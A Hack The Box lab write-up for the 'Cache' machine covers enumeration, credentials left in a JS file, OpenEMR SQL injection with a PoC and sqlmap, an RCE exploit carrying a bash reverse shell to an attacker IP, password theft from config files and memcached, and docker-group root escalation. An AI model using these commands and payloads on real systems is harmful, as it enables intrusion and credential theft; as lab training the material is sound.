# HTB - Cache

#### Ip: 10.129.155.77
#### Name: Cache
#### Rating: Medium

----------------------------------------------------------------------



### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ sudo nmap -p- -sC -sV --min-rate=10000 10.129.155.77
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-08-01 10:46 CDT
Nmap scan report for cache.htb (10.129.155.77)
Host is up (0.078s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a92db2a0c457e77c352d454ddb808cf1 (RSA)
|   256 bce4163d2a59a13a6a0928dd36103808 (ECDSA)
|_  256 57d547ee07ca3ac0fd9ba87f6b4c9d7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Cache
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.87 seconds
```

Looking at the site on port 80 we find a page about hacking and cybercrime:



Kicking off some directory scanning we find a `/jquery` directory:



Checking this out we find a link to http://cache.htb/jquery/functionality.js

Which contains a username and password:



`ash:H@v3_fun`

Using this we can login at `/login.html` where we find a page under construction:



But enumerating this endpoint doesn't seem to reveal anything of interest.

After getting stuck here forever,  I finally resorted to a hint and apparently the way forward is noticing the mention of HMS in ash's About Me page:



I had scanned the box with several different vhost wordlists, but apparently based on the About page we were supposed to figure out there was also a hms.htb.

So, after adding hms.htb to `/etc/hosts` we find an OpenEMR login page:



But unfortunately ash's password discovered earlier does not work here, nor do the OpenEMR defaults `admin:pass`.

### Exploitation

Looking for exploits against OpenEMR I find this SQL injection poc:

https://github.com/M3str3/OpenEMR-exploits/tree/main/sql%20injection/cve-2018-17179

Let's give it a shot.

First I'll google which table OpenEMR creds are usually stored in, that way we won't have to wait for the whole DB to dump:

```
"In OpenEMR, user passwords, along with other user-related information, are stored in the users_secure table"
```
We can then run:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ python exploit.py -t hms.htb --table users_secure
============================================================
          Proof of Concept - CVE-2018-17179
          IMF Master Cybersecurity Deloitte Online
          Author: M3str3 <namestre3@protonmail.com>
============================================================
[*] Trying to detect installed version
[*] Version 5.0.1 detected

[*] data/users_secure.csv saved!!
[*] Time lapsed: 350s
```

Nice, let's take a look:

```
┌──(ryan㉿kali)-[~/HTB/Cache/data]
└─$ cat users_secure.csv 
id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
1,openemr_admin,$2a$05$l2sTLIG6GTBeyBf7TAKL6.tt,$2a$05$l2sTLIG6GTBeyBf7TAKL6A$,2019-11-21 06:38:40,,,,
```
Hmm, the exploit appears to have worked, but this doesn't seem to be the entirety of the hash, and therefore isn't crackable.

I'm not sure why that didn't work?

There is also a Metasploit module for this vulnerability `sqli/openemr/openemr_sqli_dump`, however it was unable to dump the `users_secure` table.

Going back and looking for exploits, I find this authenticated RCE, which links to a YouTube video demonstrating the SQL injection at work. https://www.exploit-db.com/exploits/45161

https://www.youtube.com/watch?v=DJSQ8Pk_7hc

Let's capture in burp the following request and save it to a file called burp.txt

```
GET /portal/add_edit_event_user.php?eid=1 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: OpenEMR=i30cb8nhgajq4anbu0tcfqtjfj; PHPSESSID=7p9vdseojv2mpi26ijdm8vh8k9
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

The `eid` parameter is vulnerable here.

Let's feed this into sqlmap:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ sqlmap -r burp.txt --threads=10 --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.6.3#dev}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>
[14:50:00] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] openemr
```

Cool. Let's now  dump that `users_secure` table:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ sqlmap -r burp.txt --threads=10 --dbs -p eid --dbms mysql -D openemr -T users_secure --dump
```



Nice, that looks like the real deal this time.

Let's crack this:



We can confirm this works for the OpenEMR login: `openemr_admin:xxxxxx`



Let's go back to that authenticated RCE exploit and give it a shot:

```
┌──(ryan㉿kali)-[~/HTB/Cache]
└─$ python2 openemr_rce.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.180/9001 0>&1'
```



Cool, we've got a shell on cache now.

Looking for the openemr config file sqlconf.php we find:

```
www-data@cache:/var/www/hms.htb/public_html/sql$ locate sqlconf.php
/var/www/hms.htb/public_html/Documentation/privileged_db/secure_sqlconf.php
/var/www/hms.htb/public_html/library/sqlconf.php
/var/www/hms.htb/public_html/sites/default/sqlconf.php
```

```
$secure_host    = 'localhost';
$secure_port    = '3306';
$secure_login   = 'secure';
$secure_pass    = 'securepassword';
$secure_dbase   = 'openemr';
```

And another location contains a different password:

```
$host	= 'localhost';
$port	= '3306';
$login	= 'openemr';
$pass	= '3open6emr9';
$dbase	= 'openemr';
```

We can login to mysql with the second pair of credentials but don't find anything new.

However we are able to use `su ash` with the credential we found earlier: `H@v3_fun`

Which gets as a shell as ash:

```
www-data@cache:/home$ whoami
www-data
www-data@cache:/home$ su ash
Password: 
ash@cache:/home$ whoami
ash
```

We can now grab the first flag:



### Privilege Escalation

Running LinPEAS on the target we notice something interesting:



We can confirm the memcache port 11211 is open on cache:

```
www-data@cache:/home/ash$ netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN 
```

Let's use telnet to enumerate this.

```
ash@cache:/var/run/memcached$ telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

Ok cool, let's use the `get` command and check these out:

```
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
get file
VALUE file 0 7
nothing
END
get account
VALUE account 0 9
afhj556uo
END
get link
VALUE link 0 21
https://hackthebox.eu
```

Nice, we found user luffy's password:

```
ash@cache:/var/run/memcached$ su luffy
Password: 
luffy@cache:/var/run/memcached$
```

Now that we are user luffy, we can run the `id` command and notice that we are in the docker group:

```
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

Let's see what images are running and use it to gain access as root:

```
luffy@cache:~$ hostname
cache
luffy@cache:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
ubuntu              latest              2ca708c1c9cc        5 years ago         64.2MB
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh 
# whoami
root
# hostname
67d25367aeb8
```

Nice. Now we can grab the final flag:



Thanks for following along!

-Ryan

---------------------------------
